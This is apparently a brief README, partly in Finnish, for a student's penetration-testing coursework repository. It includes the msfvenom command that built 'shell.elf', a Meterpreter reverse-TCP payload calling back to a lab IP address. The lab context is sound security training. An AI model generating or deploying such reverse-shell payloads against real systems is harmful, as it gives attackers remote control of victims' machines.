 ## Sivusto Tero Karvisen tunkeutumistestaus kurssin palautuksia varten. 

Linkki kurssisivulle: https://terokarvinen.com/tunkeutumistestaus/

shell.elf is a malware created for educational purposes. Command used to create .elf file: `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.102 LPORT=4444 -f elf > shell.elf`
